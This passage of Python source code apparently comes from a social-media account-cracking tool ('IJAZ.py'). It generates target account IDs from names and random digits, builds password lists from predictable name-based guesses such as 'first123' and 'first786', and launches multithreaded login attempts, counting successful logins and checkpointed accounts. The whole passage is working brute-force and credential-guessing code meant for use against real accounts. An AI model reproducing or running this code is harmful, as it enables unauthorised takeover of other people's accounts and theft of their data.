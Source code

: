 				mail = ''.join(random.choice(string.digits) for _ in range(3))
				open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
			else:
				mail = ''.join(random.choice(string.digits) for _ in range(4))
				open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
			fo = open('.re.txt', 'r').read().splitlines()
		with tred(max_workers=30) as IJAZ:
			total = str(len(fo))
			clear()
			print(' Total ids : \033[1;32m'+total+f' ')
			print(' \033[1;37mThe process is running in the background')
			linex()
			for user in fo:
				ids,names = user.split('|')
				first_name = names.rsplit(' ')[0]
				try:
					last_name = names.rsplit(' ')[1]
				except IndexError:
					last_name = 'Khan'
				fs = first_name.lower()
				ls = last_name.lower()
				if pxc in ['1','01']:
					passlist = [fs+ls,fs+' '+ls,fs]
				elif pxc in ['2','02']:
					passlist = [fs+ls,fs+' '+ls,fs+'123',fs+'12345',fs+'1122']
				elif pxc in ['3','03']:
					passlist = [first_name+last_name,first_name+' '+last_name,first_name+'123']
				else:
					passlist = [fs+ls,fs+' '+ls,first_name+last_name,first_name+' '+last_name,fs+'123',fs+'786',fs+'12345',fs+'1122']
				if mthd in ['1','01']:
					IJAZ.submit(IJAZ1,ids,passlist)
				if mthd in ['2','02']:
					IJAZ.submit(IJAZ2,ids,passlist)
				if mthd in ['3','03']:
					IJAZ.submit(IJAZ3,ids,passlist)
				if mthd in ['4','04']:
					IJAZ.submit(IJAZ4,ids,passlist)
				if mthd in ['5','05']:
					IJAZ.submit(IJAZ5,ids,passlist)
				if mthd in ['6','06']:
					IJAZ.submit(IJAZ6,ids,passlist)
		print('\033[1;37m')
		linex()
		print(' The process has completed')
		print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
		linex()
		input(' Press enter to back ')
		os.system('python IJAZ.py')
#b-api method
#1method
def api1(ids,names,passlist):
		try:
			global ok,loop
			sys.stdout.write('\r\r\033[1;37m [IJAZ-M1] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
			fn = names.split(' ')[0]
			try:
				ln = names.split(' ')[1]
			except:
				ln = fn
			for pw in passlist:
				pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())